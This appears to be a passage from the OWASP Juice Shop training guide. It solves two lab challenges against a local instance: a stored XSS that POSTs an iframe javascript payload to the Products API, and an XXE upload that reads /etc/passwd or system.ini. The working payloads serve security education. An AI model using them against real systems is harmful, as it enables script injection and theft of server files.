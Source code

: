 ### **Perform a persisted XSS attack without using the frontend application at all**

1. Log in to the application with any user.
2. Copy your `Authorization` header from any HTTP request submitted via browser.
3. Submit a POST request to [http://localhost:3000/api/Products](http://localhost:3000/api/Products) with
    - `{"name": "XSS", "description": "<iframe src=\"javascript:alert(`xss`)\">", "price": 47.11}` as body,
    - `application/json` as `Content-Type`
    - and `Bearer ?` as `Authorization` header, replacing the `?` with the token you copied from the browser.
    
    ![XSS request in PostMan](media/blog4/xss3_postman.png)
    
4. Visit [http://localhost:3000/#/search](http://localhost:3000/#/search).
5. An alert box with the text "xss" should appear.
    
    ![XSS alert box](media/blog4/xss3_alert.png)
    
6. Close this box. Notice the product row which has a frame border in the description in the *All Products* table
7. Click the "eye"-button next to that row.
8. Another alert box with the text "xss" should appear. After closing it the actual details dialog pops up showing the same frame border.
    
    ![After closing the XSS alert box in product details](media/blog4/xss3_product-modal_alert.png)
    

### **Retrieve the content of C:\Windows\system.ini or /etc/passwd from the server**

1. Solve the [Use a deprecated B2B interface that was not properly shut down](https://pwning.owasp-juice.shop/companion-guide/latest/appendix/solutions.html#_use_a_deprecated_b2b_interface_that_was_not_properly_shut_down) challenge.
2. Prepare an XML file which defines and uses an external entity `<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>` (or `<!ENTITY xxe SYSTEM "file:///C:/Windows/system.ini" >]>` on Windows).
3. Upload this file through the *File Complaint* dialog and observe the Javascript console while doing so. It should give you an error message containing the parsed XML, including the contents of the local system file!
    
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    
    <!DOCTYPE foo [<!ELEMENT foo ANY >
            <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
    
    <trades>
        <metadata>
            <name>Apple Juice</name>
            <trader>
                <foo>&xxe;</foo>
                <name>B. Kimminich</name>
            </trader>
            <units>1500</units>
            <price>106</price>
            <name>Lemon Juice</name>
            <trader>
                <name>B. Kimminich</name>
            </trader>
            <units>4500</units>
            <price>195</price>
        </metadata>
    </trades>
    ```
    